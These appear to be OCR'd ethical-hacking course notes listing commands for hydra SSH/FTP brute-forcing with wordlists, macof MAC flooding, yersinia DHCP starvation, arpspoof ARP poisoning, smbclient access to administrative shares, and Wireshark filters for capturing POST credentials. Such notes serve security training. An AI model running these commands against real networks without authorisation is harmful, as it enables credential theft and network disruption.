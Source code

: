 	hydra -l USER -P p/usr/share/wordlists/rockyou.txt ssh://{Target IP} – SSH Bruteforce

	hydra -L /root/Desktop/Wordlists/Usernames.txt -P /root/Desktop/Wordlists/Passwords.txt ftp://10.10.10.11 – FTP Bruteforce

¨ John Hammond

¨ macof – MAC flooding 

	macof -i eth0 -n 10 - -i specifies the interface and -n specifies the number of packets to be sent (10 in this case)

	macof -i eth0 -d [Target IP] - -d specifies the destination IP address 

¨ Yersinia – DHCP starvation

	yersinia -I - -I starts an interactive ncurses session.   

¨ arpspoof – ARP Poisoning

	arpspoof -i eth0 -t 10.10.10.1 10.10.10.10 - -i specifies network interface and -t specifies the target IP add 

¨ MAC Spoof 
	TMAC 
	SMAC

¨ SMB
	sudo apt install smbclient > smbclient -L {IP} -U Administrator > smbclient \\\\10.10.10.131\\C$ -U Administrator
	smbclient -N -L \\\\{TARGET_IP}\\ (no password

¨ Other tools and notes
L0phtCrack(pass crack & audit)
RainbowCrack

--------------------------------------------------------------------------
Module 8 – Sniffing

¨ Wireshark

	http.request.method == “POST” -> Wireshark filter for filtering HTTP POST request 

	Capture traffic from remote interface via wireshark

	Capture > Options > Manage Interfaces 

	Remote Interface > Add > Host &  Port (2002)

	Username & password > Start

¨ Detect Sniffing 

	nmap --script=sniffer-detect 10.10.10.19 - 10.10.10.19 is the target IP 

--------------------------------------------------------------------------  
Module 13 – Hacking Web Servers
 
  ¨ Wireshark

	http.request.method == “POST” 
